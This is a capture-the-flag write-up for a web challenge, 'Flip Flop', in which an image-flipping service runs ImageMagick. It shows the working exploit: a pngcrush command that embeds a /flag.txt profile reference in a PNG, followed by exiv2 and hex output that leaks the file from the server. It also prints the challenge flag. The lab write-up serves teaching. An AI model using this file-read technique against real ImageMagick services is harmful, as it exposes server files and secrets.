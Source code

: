 ```yaml
---
layout: writeup

title: Flip Flop
level: 4
difficulty: medium
categories: [web]
tags: [image]

flag: he2023{1m4g3-tr4g1cK-aga111n}

---
```


## Challenge

This awesome service can flipflop an image!

Flag is located at: `/flag.txt`

http://ch.hackyeaster.com:2310


## Solution

We get a service that will take an image we supply it, and return it to us flipped upside down. The hint says it uses imagemagick to do this.

This looks like an imagemagick vulnerability, and we find a useful [article](https://www.uptycs.com/blog/denial-of-servicedos-and-arbitrary-file-read-vulnerability-in-imagemagick)
on the topic that we can follow.

So we use pngcrush to generate our image (the `test.png` input image can be any png image you have lying around)

```bash
$ pngcrush -text a Profile /flag.txt test.png
```

This creates an output image in [pngout.png](), and we can check the metadata is set correctly:

```bash
$ exiftool pngout.png
ExifTool Version Number         : 12.40
File Name                       : pngout.png
Directory                       : .
File Size                       : 2.3 MiB
File Modification Date/Time     : 2023:04:10 19:47:32+02:00

[..]

History When                    : 2023:01:30 11:31:54+01:00
Warning                         : [minor] Text/EXIF chunk(s) found after PNG IDAT (may be ignored by some readers)
Profile                         : /flag.txt
Image Size                      : 2732x1810
Megapixels                      : 4.9
```

We upload this to our server, and get an image back, [pngreturned.png](writeupfiles/pngreturned.png)

Frustratingly, `exiftool` doesn't show us the `Raw profile type` metadata tag with the flag in it, but using the `exiv2` tool does:

```bash
$ exiv2 -pS pngreturned.png                                                                                                                            [10-04-23 19:59:30]
STRUCTURE OF PNG FILE: pngreturned.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | ............                   | 0x6e9bc480
      33 | iCCP  |     371 | icc..(.u..+DQ..?fh.G....%...5. | 0x09d9776f
     416 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
     460 | bKGD  |       6 | ......                         | 0xa0bda793
     478 | pHYs  |       9 | .........                      | 0x952b0e1b
     499 | tIME  |       7 | ...../'                        | 0xf75a837f
     518 | tEXt  |      94 | Raw profile type txt..txt.     | 0x633ed62f
     624 | IDAT  |   32768 | x....w\..'.m{\..... A&.$..n... | 0xadc05540
   33404 | IDAT  |   32768 | ?33Q..~..g.o..B......9g\....Z+ | 0x807f9e28
   66184 | IDAT  |   32768 | ...5595==.8....B.A..N..3 D.l6. | 0x82fb6bd5
   98964 | IDAT  |   32768 | .a..=55}... 0...j,.-b....R.@." | 0x586f7028
  131744 | IDAT  |   32768 | z*.9..Z.s....@))%...,.9.@J. .. | 0x7fd64b40
  164524 | IDAT  |   32768 | ..Z........R.....(......f.`... | 0x73e7d6f7

[..]
```

opening in a hexeditor helps

![](writeupfiles/flipflophex.png)

```
6865323032337b316d3467332d7472346731634b2d6167613131316e7d
```

Hey, this looks like plausible hex-encoded ASCII text, let's decode!


